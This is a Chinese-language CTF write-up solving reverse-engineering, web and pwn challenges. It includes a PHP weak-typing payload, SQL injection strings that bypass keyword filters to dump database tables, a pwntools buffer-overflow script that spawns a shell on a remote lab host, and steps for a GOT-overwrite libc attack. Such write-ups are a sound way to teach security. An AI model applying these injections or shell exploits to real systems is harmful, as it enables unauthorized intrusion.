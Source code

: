 # Reverse

## Try 

丢进ida，直接看到flag

![try_1](images/try_1.png)


## Snake

丢进ollydbg，找到如图

![snake_1](images/snake_1.png)

将撞墙后的retn改为jmp 003217F0后运行即可得flag

![snake_2](images/snake_2.png)

## Re Again

这题用ida生成的伪代码似乎有问题(?)，由第一个do-while循环确定flag是24位的，其中由flag格式已知首尾是flag{...}。然后查了TryLevel发现是**结构化异常处理 SEH**相关的东西，然而还是看不懂，于是只能把伪码作为参考去啃汇编**（图附注释）**。

main:

![re_again_main1](images/re_again_1.png)

![re_again_main2](images/re_again_2.png)

第二个函数（第一个函数类似）：

![re_again_except](images/re_again_3.png)

![re_again_except2](images/re_again_4.png)

大致看懂后丢进ollydbg用flag{123456789012345678}单步执行。由第二个函数的伪代码的函数声明和od跑一遍的逻辑，发现第一个函数似乎没用(?)，不影响eax的值，于是看第二个函数。

![re_again_except3](images/re_again_5.png)

由于输入的flag前五位是正确的，所以会在里面循环五次后才跳出sorry，由此了解逻辑：第一个byte ptr取出的是字符"1"或"2"，第二个byte ptr依次取出flag的每一位字符，运算后与应得的值进行比较，正确则验证下一位，反向进行异或计算即可获得flag。

做题时没想到可以直接拿到第二个断点处的数组(手动捂脸)，只能一位一位算，即用fla...算出后一位'g'，再用flag...重新运行算出'{' ……，逐位获得flag，python代码如下。

```Python
last = 0x72 # 第二个端点处取得的字符再颠倒
one = 0x31	# 字符"1"
two = 0x32	# 字符"2"
flag = last ^ 0x7 ^ one	# 用1或2 取决于第一个断点处所得值
print (flag)
```

---

# Web

## UnSafe PHP

> 传闻PHP是世界上最好的语言，但方便的同时也带来了隐患，‘弱类型’就可能引发很多问题。

考查php弱类型，根据提交的json在最下面显示输出，代码如下，注释里写过程。

```php
<?php 
error_reporting(0); 
highlight_file(__FILE__); 
include "flag.php"; 

$v1=0;$v2=0; 

$a=(array)json_decode(@$_GET['answer']); 
# 提交index.php?answer={}
if(is_array($a)){ 
# 读取$a时已转换成array，应该能通过

    is_numeric(@$a["para1"])?die("nope1"):NULL; 
    if(@$a["para1"]){ 
        ($a["para1"]>2016)?$v1=1:NULL; 
    } 
	# $a["para1]既不是数又要大于2016
	# 由php手册 http://php.net/manual/zh/language.operators.comparison.php
	# 字符串和数值时比较会转换成数值，故应为含数值的字符串 

    if(is_array(@$a["para2"])){ 
        if(count($a["para2"])!==5 OR !is_array($a["para2"][0])) die("nope2"); 
		# a["para2"]为含5个元素的数组，且第一个元素为数组

        $pos = array_search("balabala", $a["para2"]); 
        $pos===false?die("nope3"):NULL; 
        foreach($a["para2"] as $key=>$val){ 
            $val==="balabala"?die("nope4"):NULL; 
        } 
		# a["para2"]中既要有balabala，又不能有balabala
		# 根据php手册 http://php.net/manual/zh/function.array-search.php
		# array_search()中字符串和数值比较同样有类型问题
		# 即 "balabala"转化成数值应为0，故需有元素为0

        $v2=1; 
    } 
} 

if($v1 && $v2){ 

    echo $flag; 
} 

?> 
```

最终payload：/index.php?answer={"para1":"2017 ","para2":[[2],3,3,3,0]}

## SQLinjection

> Hint2:测试的时候记得把'#'url编码

在login，register，index中找到注入点在/index.php?id=1处，id=1-4组合起来是"hey there flag is in the database"。先用sqlmap跑了一遍，无果_(:з」∠)_，转而投奔手注。

测试发现union,select,from,and,or,&均被过滤(降低难度后union被放出)，用selselectect,frfromom，||解决。测试1' || 1=1 #时报错，根据hint2将#改为%23后可通过。

查阅网上wp后尝试表名列名均为flag，用id=-1' union selselect flag frfromom flag%23竟然过了，~~好像大家都是这么做出来的。（雾~~

拿到flag后正经盲注，information里or用oorr绕过。

```mysql
# 表名:flag,id,user
id=-1' union selselectect group_concat(table_name) frfromom infoorrmation_schema.tables where table_shema=database()

# 列名:flag
id=-1' union selselectect group_concat(column_name) frfromom infoorrmation_schema.columns where table_name = 'flag'%23

# flag
id=-1' union selselectect flag frfromom flag%23
```

---

# Pwn

## GetShell

![getshell_1](images/getshell_1.png)

看到pwn函数调用了system("bin/sh")，应该要跳转到这个地址。main里调用了gets()，故用v4覆写掉return的地址。

python脚本如下

```python
from pwn import *
p = remote("10.105.40.215",4445)
print p.recvuntil("name")
payload = "a" * (0xa + 0x8) + p64(0x4006d6) # 程序为64位
p.sendline(payload)
p.interactive()
```

## Array

> Hint1:数组边界溢出
>
> Hint2:改写GOT表

~~由上题权限漏洞可知此题flag（雾~~

![array_main](images/array_1.png)

根据hint1，发现name和数组a地址都在bss段。

![array_bss](images/array_2.png)

根据hint2，查看got表地址，计算可得各函数的地址，如puts为a[-17]，printf为a[-18]。

![array_got](images/array_3.png)

由第一题(Getshell)，猜测此题也是通过调用system("bin/sh")来拿到flag，将name设为“/bin/sh”，system地址覆写puts地址，即可在调用puts(name)时调用system("bin/sh")。

然而got表没有system，经查阅得知函数地址是动态链接的，需通过已链接函数地址计算system地址，算式为system-libc_system=printf-libc_printf（用其他已调用函数也可行）。

libc中函数地址可将libc.so.6丢进ida查看，后来得知也能通过gdb直接查找（下图）。printf函数因为在之前已经被调用过所以a[-18]显示的是链接后的地址，故本题有两次读写操作。

![array_readelf](images/array_6.png)

同时，因为格式化字符串的%d，所以地址要用十进制进行操作。

故解题过程为：

1. 将/bin/sh写入name
2. 读取a[-18]，即已知的printf动态地址。
3. 由system=printf-libc_printf+libc_system计算出system的动态地址
4. 将十进制的地址写入a[-17]，即要调用的puts()函数的地址
5. 调用puts(name)时，实际调用system("/bin/sh")，getshell。

![array_ans](images/array_5.png)

P.S. 题目附带的libc文件是服务器的libc库，本地测试时调用的是本地的库，本地libc库位置可通过gdb中查看，如下图。

![array_libc](images/array_4.png)